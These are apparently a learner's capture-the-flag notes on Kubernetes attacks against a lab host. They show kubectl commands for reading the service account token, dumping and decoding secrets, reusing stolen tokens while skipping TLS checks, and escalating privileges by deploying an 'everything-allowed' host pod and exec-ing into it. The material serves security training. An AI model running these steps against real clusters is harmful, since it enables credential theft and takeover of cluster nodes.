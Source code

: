 # kubernetes
[https://kubernetes.io/docs/reference/kubectl/cheatsheet/](https://kubernetes.io/docs/reference/kubectl/cheatsheet/) 

`kubectl get pods`

You can check your permissions using `kubectl auth can-i --list`

Kubernetes stores secret values in resources called Secrets these then get mounted into pods either as environment variables or files.

You can use `kubectl` to list and get secrets. The content of the secret is stored base64 encoded.

`./kubectl get secrets`

`kubectl get secret secretflag -o 'json'`

Some interesting Kubernetes objects to look for would be `nodes`,  `deployments`, `services`, `ingress`, `jobs`... But the service account you control does not have access to any of them.

However, by default Kubernetes creates environment variables containing the host and port of the other services running in the cluster.

Running `env` you will see there is a `Grafana` service running in the cluster.

Kubernetes stores the token of the service account running a pod in `/var/run/secrets/kubernetes.io/serviceaccount/token`.   

specify kubernetes config file with:

```text-plain
KUBECONFIG=diana.kubeconfig kubectl --server https://10.10.92.76:6443 --insecure-skip-tls-verify version
```

```text-plain
kubectl --insecure-skip-tls-verify --server=https://team.thm:6443 auth can-i --list --token "$(cat token.txt)"	
```

```text-plain
./kubectl auth can-i --list --token=${TOKEN}

kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://team.thm:6443 -n kube-system get secret flag3 -o json | jq -r '.data | map_values(@base64d)'

./kubectl exec -it grafana-57454c95cb-v4nrk --token=${TOKEN} -- /bin/bash
```

Namespaces
----------

`kubectl get namespace` lists all the available namespaces

`-n` defines the namespace to use. use `get secret <secret_name>` to get details and output it in a format yaml,json etc., to get it's value.

Nodes
-----

`kubectl get node`, to  list nodes and output in yaml,json for it's details.

privilege escalation

```text-plain
kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://team.thm:6443 -n default apply -f host.yaml
```

Server Side Apply helps users and controllers manage their resources through declarative configurations. Clients can create and modify their [objects](https://kubernetes.io/docs/concepts/overview/working-with-objects/kubernetes-objects/) declaratively by sending their fully specified intent.

```text-plain
kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://team.thm:6443 -n default exec -it host bash
```

“host” is necessary

[https://bishopfox.com/blog/kubernetes-pod-privilege-escalation](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation) 

[https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml](https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml) 

The image is available in minikube's local docker registry therefore you just need to tell Kubernetes to use the local version instead of pulling it. You can achieve this by adding `imagePullPolicy: IfNotPresent` to your "bad" pod container. Once that is done you can run `kubectl apply` to create the pod.